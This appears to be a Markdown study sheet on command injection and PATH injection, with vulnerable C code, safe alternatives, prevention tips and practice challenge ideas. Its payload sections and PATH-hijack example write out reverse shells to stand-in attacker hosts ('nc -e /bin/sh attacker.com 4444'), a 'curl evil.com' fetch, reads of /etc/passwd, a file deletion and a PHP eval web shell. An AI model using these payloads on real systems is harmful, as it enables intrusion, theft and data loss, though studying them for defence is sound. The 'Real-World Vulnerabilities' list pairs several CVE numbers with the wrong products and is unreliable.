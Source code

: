 📚 Command Injection & Path Injection Notes
==========================================

### 1. What is Command Injection?
-----------------------------
Command Injection happens when untrusted input is passed directly to a system shell, allowing arbitrary OS commands to execute.

🧨 Goal:
- Inject commands through vulnerable functions (e.g., system(), exec(), etc.)

2. Command Injection on Linux
-----------------------------
### ✅ Vulnerable Code (C):
**char user_input[100];**
**fgets(user_input, sizeof(user_input), stdin);**
**char command[200];**
**snprintf(command, sizeof(command), "ls %s", user_input);**
**system(command);**

### 🧪 Payloads:
- **; whoami**
- **&& cat /etc/passwd**
- **| nc -e /bin/sh attacker:4444**

### 🛑 Safe Alternative:
execlp("ls", "ls", user_input, NULL);

### 3. Command Injection on Windows
-------------------------------
### ✅ Vulnerable Code (C):
**char name[100];**
**fgets(name, sizeof(name), stdin);**
**char cmd[200];**
**sprintf(cmd, "cmd.exe /c echo Hello %s", name);**
**system(cmd);**

### 🧪 Payloads:
- **& calc**
- **&& whoami**
- **| powershell Invoke-WebRequest**
- **& del C:\important.txt**

### 🛑 Safe Alternative:
- **Avoid system(), ShellExecute()**
- **Use CreateProcess() with sanitized arguments**

### 4. Path Injection
-----------------
**Occurs when:**
- **Program uses binary name (e.g., "ping") without full path**
- **Attacker changes $PATH or places malicious binary first in PATH**

### 🧪 Example:
**export PATH=~/evil:$PATH**
**echo -e '#!/bin/bash\nnc -e /bin/sh attacker.com 4444' > ~/evil/ping**
**chmod +x ~/evil/ping**

### **✅ Defense:**
- **Use full path: /usr/bin/ping**
- **Sanitize PATH / drop privileges**

### 5. Dangerous APIs (by language)
-------------------------------
**C:        system(), popen(), exec*(), WinExec()**
**Python:   os.system(), subprocess, eval()**
**PHP:      exec(), system(), shell_exec()**
**Node.js:  child_process.exec()**
**Bash:     eval, backticks `command`**

### 6. Detection Techniques
-----------------------
- **Look for system() or shell calls + user input**
- **Use payloads with ; | & &&**
- **Monitor logs, behavior, abnormal output**

7. **Prevention Best Practices**
----------------------------
### ✅ Do:
- **Use safe API alternatives**
- **Whitelist or sanitize input**
- **Use full paths to binaries**
- **Drop unnecessary privileges**

### 🚫 Don’t:
- **==Concatenate input directly into shell commands==**
- **==Trust user-controlled environment variables==**

### 8. Real-World Vulnerabilities
-----------------------------
**CVE-2019-11043: PHP-FPM command injection**
**CVE-2021-41773: Apache path traversal + RCE**
**CVE-2016-6515: Command injection in OpenVPN**
**CVE-2020-10560: SaltStack shell command injection**

### 9. Payload Examples
-------------------
### Linux:
- ; whoami
- && uname -a
- `curl evil.com`

### Windows:
- & calc.exe
- | powershell Invoke-WebRequest

### Python:
- __import__("os").system("ls")

### PHP:
- eval($_GET['cmd'])

10. Challenge Ideas (Practice)
------------------------------
- EasyCmd: Echo input with system(); inject && whoami
- PingMaster: ping input; inject ; calc
- ScheduleRun: Accepts command to run via input
- PHPWebShell: GET param to system() call
- NodeExec: Uses child_process.exec() with user input

